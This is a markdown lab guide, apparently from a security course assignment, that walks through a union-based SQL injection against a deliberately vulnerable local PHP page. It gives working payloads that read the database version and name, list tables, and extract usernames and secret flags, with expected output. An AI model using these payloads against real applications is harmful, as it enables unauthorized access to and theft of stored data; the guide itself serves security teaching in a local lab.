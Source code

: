 # Task B: Union-Based Data Exfiltration Attack Guide

## 🎯 **Objective:**
Extract system information (MySQL version and database name) through Union-based SQL injection on products.php

## 🔍 **Target Analysis:**
- **File:** `products.php`
- **Vulnerable Query:** `SELECT name, price FROM products WHERE product_id = '$product_id'`
- **Columns:** 2 (name, price)
- **Attack Vector:** GET parameter `id`

## 🔐 **Attack Strategy:**

### **Step 1: Test Normal Functionality**
First, verify the application works normally:
```
http://localhost/sqli_lab/products.php?id=101
```
**Expected:** Shows "Secure Firewall" product with price $999.00

### **Step 2: Discover Column Count**
The query selects 2 columns (name, price), so our UNION must also select 2 columns.

### **Step 3: Craft Union-Based Payload**

**Base URL:**
```
http://localhost/sqli_lab/products.php?id=
```

**Payload:**
```
-1' UNION SELECT VERSION(), DATABASE() --
```

**Complete Attack URL:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT VERSION(), DATABASE() --
```

## 🛠️ **How the Attack Works:**

### **Original Query:**
```sql
SELECT name, price FROM products WHERE product_id = '$product_id'
```

### **After Injection:**
```sql
SELECT name, price FROM products WHERE product_id = '-1' UNION SELECT VERSION(), DATABASE() --'
```

### **Explanation:**
1. **`-1'`** - Invalid product ID ensures no legitimate results
2. **`UNION SELECT`** - Combines results from our malicious query
3. **`VERSION()`** - Returns MySQL version (Column 1 - name)
4. **`DATABASE()`** - Returns current database name (Column 2 - price)
5. **`--`** - Comments out the rest of the query

## 📋 **Step-by-Step Execution:**

### **Step 1: Test Basic Functionality**
1. Open browser
2. Navigate to: `http://localhost/sqli_lab/products.php?id=101`
3. Verify you see the Secure Firewall product

### **Step 2: Execute Union Attack**
1. **Copy this complete URL:**
   ```
   http://localhost/sqli_lab/products.php?id=-1' UNION SELECT VERSION(), DATABASE() --
   ```

2. **Paste it in your browser address bar**
3. **Press Enter**

### **Step 3: Analyze Results**
You should see a table with:
- **Column 1 (Product Name):** MySQL version (e.g., "10.4.32-MariaDB")
- **Column 2 (Price):** Database name (e.g., "assignment_db")

## 🎯 **Expected Results:**

### **Successful Attack Display:**
```
Product Lookup Table:
┌─────────────────────────────┬─────────────────┐
│ Column 1 (Product Name)     │ Column 2 (Price)│
├─────────────────────────────┼─────────────────┤
│ 10.4.32-MariaDB            │ assignment_db   │
└─────────────────────────────┴─────────────────┘
```

## 📸 **Deliverable 2.B Requirements:**

### **1. Final Payload:**
```
-1' UNION SELECT VERSION(), DATABASE() --
```

### **2. Complete Attack URL:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT VERSION(), DATABASE() --
```

### **3. Screenshot Requirements:**
Take a screenshot showing:
- ✅ The complete URL in the address bar
- ✅ The products.php table displaying system information
- ✅ MySQL version in Column 1
- ✅ Database name (assignment_db) in Column 2

## 🔍 **Alternative Payloads to Try:**

### **Extract Table Names:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT table_name, 'table_info' FROM information_schema.tables WHERE table_schema='assignment_db' --
```

### **Extract User Data:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT username, secret_flag FROM users --
```

### **Extract Admin Flag:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT username, secret_flag FROM users WHERE role='admin' --
```

## ⚠️ **Troubleshooting:**

### **If No Results Appear:**
- Check that XAMPP Apache/MySQL are running
- Verify the database was set up correctly
- Try URL encoding special characters

### **If Query Fails:**
- Check for syntax errors in the payload
- Ensure the UNION selects the same number of columns (2)
- Verify the database name is correct

## 🚀 **Ready to Attack!**

**Copy and paste this URL into your browser:**
```
http://localhost/sqli_lab/products.php?id=-1' UNION SELECT VERSION(), DATABASE() --
```

**Take a screenshot when successful and document your findings!**